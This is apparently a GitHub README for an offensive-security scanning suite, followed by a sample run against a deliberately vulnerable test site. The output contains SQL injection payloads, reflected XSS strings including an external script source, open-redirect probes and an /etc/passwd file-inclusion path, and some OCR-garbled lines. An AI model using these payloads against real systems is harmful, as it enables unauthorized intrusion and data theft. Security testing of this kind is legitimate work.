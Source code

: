 <h1 align="center">yublueflower</h1>

<p align="center">
  A suite integrating open-source workflows tailored for offensive security.
</p>

<p align="center">
  <img src="https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white">
</p>

## Overview

```bash

            .      .-~\
           / `-'.'    `- :
           |    /          `._
           |   |   .-.        {
            \  |   `-'         `.
          .  \ |                /    We exploit flaws, not people.
        ~-.`.\ \|            .-~_
           `.\-.\       .-~      \
             `-'/~~ -.~          /
           .-~/|`-._ /~~-.~ -- ~
          /  |  \    ~- . _\

A suite integrating open-source workflows tailored for offensive security.
Author: 1337rokudenashi
Current yublueflower version v0.0.3 (latest)

Usage:
yublueflower -url http://testphp.vulnweb.com/

Options:
-help       Show this help message.
-url <URL>  Run a vulnerability assessment on the specified URL.
-silent     Only display results from the vulnerability assessment phase and suppress outputs from the reconnaissance phase.
```

A suite integrating open-source workflows tailored for offensive security, yublueflower provides comprehensive vulnerability assessments.
This tool is designed to be flexible and effective in supporting offensive security workflows. It has been tested to work smoothly on WSL (Windows Subsystem for Linux) with Kali Linux.

## Features

- **Reconnaissance Phase**:
  - Passive crawling to collect URLs.
  - Active crawling for deeper URL discovery.
- **Vulnerability Assessment Phase**:
  - Automatically scans for vulnerabilities built on common vulnerabilities and exposures (cve).
  - Automatically tests for vulnerabilities leveraging dynamic application security testing (dast).
- **Reporting Phase**:
  - Automatically saves results in a timestamped folder.
- **Options**:
  - Silent mode suppresses the output of the reconnaissance process, helping to reduce clutter in the terminal during the scan.

## System Requirements

- **Operating System**: WSL (Windows Subsystem for Linux) with Kali Linux
- **Dependencies**: go.dev (see [installation instructions](https://go.dev/doc/install))
- **Dependencies**: nodejs (see [installation instructions](https://nodejs.org/en/download))

## Installation

To install yublueflower, clone the repository and set up the tool as follows:

```bash
git clone https://github.com/1337rokudenashi/yublueflower.git
cd yublueflower
chmod +x yublueflower
bash yublueflower
```

## Usage

To run the tool, use the following command:

```bash
yublueflower -url http://testphp.vulnweb.com/ -silent
```

```bash

            .      .-~\
           / `-'.'    `- :
           |    /          `._
           |   |   .-.        {
            \  |   `-'         `.
          .  \ |                /    We exploit flaws, not people.
        ~-.`.\ \|            .-~_
           `.\-.\       .-~      \
             `-'/~~ -.~          /
           .-~/|`-._ /~~-.~ -- ~
          /  |  \    ~- . _\

A suite integrating open-source workflows tailored for offensive security.
Author: 1337rokudenashi
Current yublueflower version v0.0.3 (latest)

Testing started at 13:37:01 01-03-2025
🟢 Reconnaissance Phase: Passively and actively gathering URLs...
http://testphp.vulnweb.com/redir.php?r=https://getgophish.com/
http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 AND UPDATEXML(3477,CONCAT(0x2e,0x7176716271,(SELECT (ELT(3477=3477,1))),0x716b786b71),6541)
http://testphp.vulnweb.com/artists.php?artist=1 order by 4
http://testphp.vulnweb.com/product.php?pic=3) AND 4294=2769 AND (1005=1005
http://testphp.vulnweb.com/listproducts.php?cat=1
http://testphp.vulnweb.com/?
http://testphp.vulnweb.com/showimage.php?ﬁle=13745325-cd3d-4961-b71d-d04727bb02b0
http://testphp.vulnweb.com/comment.php?aid=' UNION SELECT * FROM information_schema --
http://testphp.vulnweb.com/search.php?test=<USER_INPUT>
http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1 OR 17-7=10CONFIRMED
http://testphp.vulnweb.com/hpp/params.php?aaaa/=
http://testphp.vulnweb.com/login.php?id=1
http://testphp.vulnweb.com/Mod_Rewrite_Shop/details.php?id=-1 OR 17-7=10 PROCEDURE ANALYSE(EXTRACTVALUE(6706,CONCAT(0x5c,0x7176627671,(SELECT (CASE WHEN (6706=6706) THEN 1 ELSE 0 END)),0x716a627a71)),1)
http://testphp.vulnweb.com/hpp/?pp='"--></style></scRipt><scRipt src="//mv9e8mbvffulk1i0duvujvkdkktmkntnztbb8kejrja
http://testphp.vulnweb.com/˓→artists.php?artist=0
http://testphp.vulnweb.com/secured/phpinfo.php?=PHPE9568F35-D428-11d2-A769-00AA001ACF42
http://testphp.vulnweb.com/pictures/credentials.txtA01http://testphp.vulnweb.com/product.php?pic=1
http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-
http://testphp.vulnweb.com/˓→listproducts.php?cat=FUZZ*********************************************************
http://testphp.vulnweb.com/index.zipA01http://testphp.vulnweb.com/listproducts.php?artist=1A01
http://testphp.vulnweb.com/index.php?%id%=1
http://testphp.vulnweb.com/categories.php/listproducts.php?cat='
http://testphp.vulnweb.com/artist.php?artist=1
http://testphp.vulnweb.com/hpp/?pp=12
http://testphp.vulnweb.com/artists.php?artist=3
http://testphp.vulnweb.com/listproducts.php?cat=1
http://testphp.vulnweb.com/hpp/params.php?p=valid
http://testphp.vulnweb.com/showimage.php?file=./pictures/3.jpg
http://testphp.vulnweb.com/product.php?pic=6
🟢 Vulnerability Assessment Phase: Assessing vulnerabilities through an offensive perspective...
[waf-detect:nginxgeneric] [http] [info] http://testphp.vulnweb.com/
[php-errors] [http] [info] http://testphp.vulnweb.com/ ["Warning: mysql_connect()"]
[nginx-version] [http] [info] http://testphp.vulnweb.com/ ["nginx/1.19.0"]
[php-detect] [http] [info] http://testphp.vulnweb.com/ ["5.6.40"]
[open-redirect] [http] [medium] http://testphp.vulnweb.com/redir.php?r=https://oast.me [query:r] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/listproducts.php?cat=1%ef%80%a0' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/artists.php?artist=1+order+by+4' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:artist] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/details.php?id=-1+OR+17-7=10+PROCEDURE+ANALYSE(EXTRACTVALUE(6706,CONCAT(0x5c,0x7176627671,(SELECT+(CASE+WHEN+(6706=6706)+THEN+1+ELSE+0+END)),0x716a627a71)),1)' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/product.php?pic=3)+AND+4294=2769+AND+(1005=1005' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:pic] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/AJAX/infoartist.php?id=1+AND+UPDATEXML(3477,CONCAT(0x2e,0x7176716271,(SELECT+(ELT(3477=3477,1))),0x716b786b71),6541)' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1+OR+17-7=10CONFIRMED' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/search.php?test=<USER_INPUT>' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:test] [GET]
[open-redirect] [http] [medium] http://testphp.vulnweb.com/redir.php?r=https://oast.me [query:r] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/?pp='"--></style></scRipt><scRipt+src="//mv9e8mbvffulk1i0duvujvkdkktmkntnztbb8kejrja'"><69347> [query:pp] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/search.php?test=<USER_INPUT>'"><69347> [query:test] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/product.php?pic=3)+AND+4294=2769+AND+(1005=1005'"><69347> [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1+OR+17-7=10CONFIRMED'"><69347> [query:id] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/artists.php?artist=1+order+by+4'"><69347> [query:artist] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-'"><69347> [query:id] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/listproducts.php?cat=1%ef%80%a0'"><69347> [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/listproducts.php?cat=1' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/artists.php?artist=3' ["check the manual that corresponds to your MySQL server version","SQL syntax; check the manual that corresponds to your MySQL"] [query:artist] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/product.php?pic=6' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/listproducts.php?cat=1'"><77225> [query:cat] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/product.php?pic=6'"><77225> [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/params.php?p=valid'"><77225> [query:p] [GET]
[linux-lfi-fuzz] [http] [high] http://testphp.vulnweb.com/showimage.php?file=../../etc/passwd [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/?pp=12'"><77225> [query:pp] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/artists.php?artist=3'"><77225> [query:artist] [GET]
🟢 Reporting Phase: A thorough report is generated...
Results have been saved to /home/yublueflower/glow_yublueflower
Testing finished at 13:44:01 01-03-2025
Use the command glow yublueflower_20250301_133701 to read the results of the report.
```

## Contributing

We welcome contributions! Feel free to fork the repository, improve the tool, and submit a pull request.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Author

Developed and maintained by 1337rokudenashi.

